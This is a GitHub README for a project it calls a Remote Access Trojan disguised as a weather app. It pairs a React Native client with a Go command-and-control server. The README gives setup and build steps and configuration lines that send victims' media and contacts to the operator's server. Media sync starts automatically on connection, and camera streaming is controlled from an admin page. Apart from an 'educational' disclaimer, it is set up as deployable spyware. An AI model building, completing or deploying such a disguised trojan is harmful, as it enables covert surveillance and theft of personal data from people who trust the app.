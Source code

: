 # Remote Access Trojan under the Disguise of Weather UI (Educational Purposes Only)
https://github.com/user-attachments/assets/a184ea64-3cfc-43aa-b8ce-30ee37fd19ad 

https://github.com/user-attachments/assets/74c86685-53fc-4325-bfd3-b79b8a6ce7ec

## Project Overview

**WeatherView** is a research project demonstrating remote access capabilities through a disguised weather application interface. The system consists of:

1. A React Native client app with weather functionality
2. A Go-based C2 (Command and Control) server
3. Remote access features including media sync, contact retrieval, and video streaming

**Disclaimer**: This project is developed solely for educational purposes in the field of cybersecurity research. Unauthorized use against systems without explicit permission is illegal.

## System Architecture

```
[WeatherView Client App] ←WebSocket→ [Go C2 Server]
      (React Native)              (Command & Control)
```

## Features

- **Weather Interface**: Fully functional weather display
- **Remote Access**:
  - Media file synchronization
  - Contact list retrieval
  - Device information collection
  - Live video streaming capability

## Setup Instructions

### 1. C2 Server Setup

```bash
# Clone the repository
git clone [repository-url]

# Navigate to server directory
cd server

# Build and run the Go server
go build -o main && ./main
```

**Configuration**:
- The server runs on port `6969` by default
- Change port by setting `PORT` environment variable
- Admin interface available at `http://localhost:[port]/admin.html`

### 2. Client App Configuration

Edit the following in the React Native client:

```javascript
// In WeatherApp.js (Weather Interface)
const API_KEY = 'your_openweathermap_api_key'; // Replace with your key
const BASE_URL = 'https://api.openweathermap.org/data/2.5';

// In mediaSync.js (Remote Access)
const SERVER_URL = 'ws://your_server_ip:6969/ws'; // Change to your server IP
const UPLOAD_ENDPOINT = 'http://your_server_ip:6969/upload';
const CONTACTS_ENDPOINT = 'http://your_server_ip:6969/contacts';
```

### 3. Building the Client App

```bash
# Install dependencies
npm install && npm install --save-dev @react-native-community/cli

#Start Metero
npx react-native start

# For Android
npx react-native run-android

# For iOS
npx react-native run-ios
```

## Usage Guide

1. **Weather App Interface**:
   - Displays current weather and forecast
   - Search for locations worldwide

2. **Remote Access Features** (Educational Demonstration):
   - Media sync initiates automatically on connection
   - Contacts are retrieved once permissions are granted
   - Camera streaming available through admin interface

## Security Considerations

- Always run this project in a controlled environment
- Never deploy with default credentials
- Ensure proper network isolation when testing
- All activities must comply with applicable laws

## License

This project is licensed for educational use only. All other uses require explicit permission from the developers.

